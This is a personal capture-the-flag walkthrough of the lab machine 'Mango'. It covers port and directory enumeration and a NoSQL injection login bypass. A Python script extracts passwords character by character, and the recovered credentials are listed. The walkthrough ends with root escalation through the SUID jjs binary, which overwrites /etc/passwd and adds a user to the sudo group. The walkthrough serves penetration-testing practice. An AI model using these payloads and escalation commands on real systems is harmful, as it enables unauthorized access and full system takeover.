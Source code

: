 # Summary



## about target

tip:  10.129.1.219

hostname:  Mango

Difficulty:  Medium



## about attack

+ mango db, nosql injection and exploit.
+ linux privesc tech: add user to passwd, copy bash to tmp and add suid, add uesr to sudo group, reverse shell. 
+ suid privesc, jjs



**attack note**

```bash
Mango / 10.129.1.219

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
|_  256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request

----Interesting
subdomain, staging-order.mango.htb
eamil and user, admin@mango.htb

admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H

----Enum

-- http 80
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x php,txt

-- http 443
gobuster dir -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://$tip -o gobuster-443.log  -x php,txt

-- http subdomain
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://staging-order.mango.htb -o gobuster-subdomain.log  -x php,txt

----Exploit


```







# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
|_  256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
```



## http enum

dir scan

```bash
-- http 80
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x php,txt

-- http 443
gobuster dir -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://$tip -o gobuster-443.log  -x php,txt
```



port 443, found this, nothing valuable.

https://10.129.1.219/analytics.php



port 443, ssl cert found domain.



![image-20221121224741518](./images/image-20221121224741518.png)



http://staging-order.mango.htb/

login page.

![image-20221204143032712](./images/image-20221204143032712.png)



Admin:password not work.



read the walkthrough,  nosql injection.



# Exploit



## nosql injection 

nosql injection authentication bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass

```bash
username[$ne]=admin&password[$ne]=password&login=login
```



![image-20221203193519877](./images/image-20221203193519877.png)



```python

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://staging-order.mango.htb/index.php"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='username=%s&password[$regex]=^%s&login=login' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c

```

got password.

![image-20221204000508554](./images/image-20221204000508554.png)



enum script 2 

https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

```bash
python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep username -m POST

python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep password -m POST

```



got user and password.

```bash
admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H
```



## ssh

ssh admin, failed. ssh mango, got shell.

```bash
cat /etc/ssh/sshd_config
```

admin not allowed to connect ssh.

![image-20221204001746613](./images/image-20221204001746613.png)



# Privesc

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

```



## Local enum

suid file, jjs; /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

```bash
find / -user root -perm -4000 2>/dev/null

```



## system

run jjs to add user.

```bash
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd");
fw.write("hello:$1$hello$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/bash");
fw.close();' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

![image-20221204005022847](./images/image-20221204005022847.png)



add admin to sudo group. usermod no in path, use /usr/sbin/usermod

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/usr/sbin/usermod -aG sudo admin').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```



exit to mango and su to admin, then sudo to root.

```bash
su - admin

sudo su -
```



![image-20221204005959259](./images/image-20221204005959259.png)

## proof

```bash


```



